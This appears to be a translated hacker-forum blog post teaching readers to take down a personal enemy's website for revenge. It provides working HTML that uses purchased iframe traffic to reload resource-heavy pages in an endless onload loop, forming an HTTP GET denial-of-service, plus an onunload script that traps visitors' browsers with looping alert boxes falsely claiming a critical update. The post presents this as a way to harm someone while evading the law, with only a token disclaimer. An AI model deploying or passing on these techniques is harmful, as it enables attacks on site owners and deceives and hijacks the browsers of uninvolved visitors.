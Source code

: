 ```yaml
---
title: Kill Your Neighbor With a Shovel
abstract: "iframe traffic, browser abuse, and petty revenge — for educational purposes only."
date: '2024-02-17'
draft: false
slug: kill-your-neighbor-with-a-shovel
---
```


For quite a long time, an interesting thought about alternative ways of using iframe traffic has been wandering around in my head, and now, finally, it has fermented into the following article. Light, clamp, scalpel, the lab work begins :yes2:

Probably many of you are familiar with the desire (not the best in terms of the impact on karma :blink: ) to take revenge on some jerk who screwed you over/scammed you, etc... Let's say you know the villain's website, what can you do with it?  
Well, firstly, it is possible to hack it purely theoretically, and if you have the right hands, then with your own, or you can order a professional to hack it.  
Secondly, it's to fucking kill the bastard.  
So, in the absence of specialized knowledge, such "self-satisfaction" will cost a pretty penny. We will not talk about the prices today, but they are definitely not small.

Today I will tell you how you can do something nasty with your own hands, without stepping on the rake of the law.  
For this we will need about ten free hosts registered by ourselves, preferably on different domains, a little bit of writing and actually iframe traffic, which can be bought for pennies if you really want to.

Now about how it all works. Firstly, this method can only organize http GET DOS, at least this is what first comes to mind. We select resource-intensive scripts on the victim's server (these can be search queries on the site, output of pages with a large number of elements, preferably generated by scripts, etc.) and start draining traffic to them. BUT, if you just stupidly pour a frame, then it will turn out to be not profitable at all, because you will have to really fork out for such a flow.

### Task:

1. We need to somehow use traffic more productively
2. It is necessary to increase the quality of the iframe in relation to our task

### Solution:

So the first thing that comes to my mind is a stupid parallelization of one iframe stream into dozens of such streams, which allows you to get from 1k iframe traffic about 10–20k real visits to the victim's site.  
Everything is simple, but we will go further, for this we will use the iframe tag method as onLoad in addition to parallelization of streams.

Let's write such a simple script:

```html
<iframe src="victim.html" onload="this.src='victim.html'"></iframe>
```

It allows the victim to reload the page again after it finishes loading, and so on until you get tired of it.  
Well, now we have a page on the freehost containing such frames, set on the resource-intensive scripts of the victim. That's it! We can start draining traffic and rejoice at the site lying down.

But let's not rush and save the money. Now we will try to get the maximum return on the money spent. So, I think it is obvious that the longer the victim's site pages are reloaded, the more loaded their server will be with the same purchased iframe stream. There is a concept of "traffic lifetime" or "surfer session duration" which determine the time until the tab/window with the frame on our page is open. Believe me, we can significantly increase this time, though with a rather crude method.

Let's look at the code below:

```html
<html>
  <body onunload="alert_block()">
    <script>
      function alert_block() {
        while (1) {
          alert('Внимание! Выполнятеся критическое обновление! Вы не можете сейчас закрыть браузер.');
        }
      }
    </script>
    <iframe src="victim.html" onload="this.src='victim.html'"></iframe>
  </body>
</html>
```

As you have already noticed, in addition to the hellish frame, additional scripts have appeared that use the onUnLoad event for the `<body>` tag. They allow us to display message boxes to the user with information that at the moment they cannot close the browser because it is being updated.

With all this, 80% of users will not be able to do anything with the browser, because native methods of working with it will be reduced to stupidly poking at the "OK" button. It will be easier to open another copy of the browser and at least forget about this one, which is what we need!

So today I told you about the potential opportunity to "take down" the ill-wisher's site with your own hands and not spend much money. This is where the lab work comes to an end, everything else is being finished with a file at home, and I am waiting for the lab reports in the form of posts.

**P.S.** Anything evil you are going to do after reading this article remains on your conscience (and don't forget about your karma :crazy:)
I just showed another opportunity to have fun online.

**Good luck!**
